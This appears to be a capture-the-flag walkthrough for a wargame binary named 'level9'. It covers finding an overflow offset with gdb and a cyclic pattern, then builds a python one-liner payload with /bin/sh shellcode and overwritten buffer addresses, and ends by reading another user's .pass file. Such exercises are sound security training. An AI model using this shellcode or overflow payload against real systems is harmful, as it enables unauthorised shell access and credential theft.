 # level9 Exploit

## Steps

### 1. Disassemble the Main Function

Use `gdb` to disassemble the `main` function:
```sh
gdb level9
(gdb) disas main
```
This gives you the assembly code of the `main` function.

### 2. Convert Assembly to C++ Code

Convert the assembly code to C++ code using an online tool like [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter). The converted C++ code return the joined source.cpp. 

### 3. Generate a Pattern

Generate a unique pattern to find the offset using the [Wiremask pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/):
```sh
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
When the program crashes, use:
```sh
(gdb) info register
```
to find the value of `eip` and calculate the offset with the Wiremask offset calculator.

### 4. Determine Buffer Start Address

Set a breakpoint and run the program with a simple input:
```sh
(gdb) b *0x0804867c
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Examine the memory to find the buffer's start address:
```sh
(gdb) x/64x $eax
```
Note the start address (e.g., `0x804a00c`).

### 5. Craft the Exploit

Create the exploit payload using the shellcode and padding:
```sh
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```
- `"\x10\xa0\x04\x08"`: Address of the buffer plus 4 bytes (`0x804a010`).
- Shellcode: `"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"`.
- Padding: `"A" * 76`.
- `"\x0c\xa0\x04\x08"`: Start address of the buffer in little-endian (`0x804a00c`).

### 6. Run the Exploit

Run the crafted payload to execute the shellcode with the required privileges and then `cat /home/user/bonus0/.pass` to get the flag.